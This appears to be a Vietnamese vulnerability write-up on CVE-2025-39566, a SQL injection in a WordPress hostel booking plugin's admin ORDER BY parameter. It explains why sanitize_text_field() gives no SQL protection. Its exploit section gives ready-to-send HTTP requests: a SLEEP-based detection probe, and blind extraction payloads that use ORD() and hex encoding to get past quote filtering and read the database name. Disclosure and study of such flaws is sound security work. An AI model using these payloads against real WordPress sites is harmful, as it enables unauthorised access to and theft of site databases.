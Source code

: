 ⚠️ Ở đây có điểm bất thường:
- Phần sau `ORDER BY` sử dụng `sanitize_text_field()`.
- Hàm này chỉ **làm sạch HTML**, không hề filter hoặc validate để đảm bảo an toàn trong **SQL context**.
- Tham số `ob` (do người dùng truyền vào) vì vậy có thể bị lợi dụng để **chèn trực tiếp vào câu SQL**.

---

## Exploit
### Detect SQLi

**Request with BurpSuite**:

```http
GET /wp-admin/admin.php?page=wphostel_bookings&type=upcoming&ob=tB.status,(SELECT+SLEEP(10))&dir=ASC HTTP/1.1
```

Ta tách mệnh đề `ORDER BY` bằng `,` vì nó chấp nhập **multi column**

![time response](images/posts/2025-08-25-CVE-2025-39566/time_response.png)

Kết quả: thời gian phản hồi bị delay => SQL Injection thành công.

### Dump Data from Database

**Bypass `'` using ORD()**:

Để dump dữ liệu của database ta cần thử để lấy ký tự đầu tiên của **database name**.

Do `sanitize_text_field()` loại bỏ `'`, ta không dùng được payload so sánh trực tiếp. Thay vào đó dùng `ORD()` để so sánh ký tự theo ASCII:

```http
GET /wp-admin/admin.php?page=wphostel_bookings&type=past&ob=tB.status,(SELECT+IF(ORD(SUBSTRING(DATABASE(),1,1))=119,SLEEP(5),0))&dir=ASC HTTP/1.1
```
Thành công bypass => có thể trích xuất tên database.

![ORD bypass](images/posts/2025-08-25-CVE-2025-39566/ord_bypass.png)

**Bypass `'` using Hex encoding (extend)**

Ngoài `ORD()` ta có thể sử dụng **Hex encoding** để bypass

```http
GET /wp-admin/admin.php?page=wphostel_bookings&type=past&ob=tB.status,(SELECT+IF(SUBSTRING(DATABASE(),1,1)=0x77,SLEEP(5),0))&dir=ASC HTTP/1.1
```

Thành công bypass => có thể trích xuất tên database.

![Hex encoding bypass](images/posts/2025-08-25-CVE-2025-39566/ord_bypass.png)

---
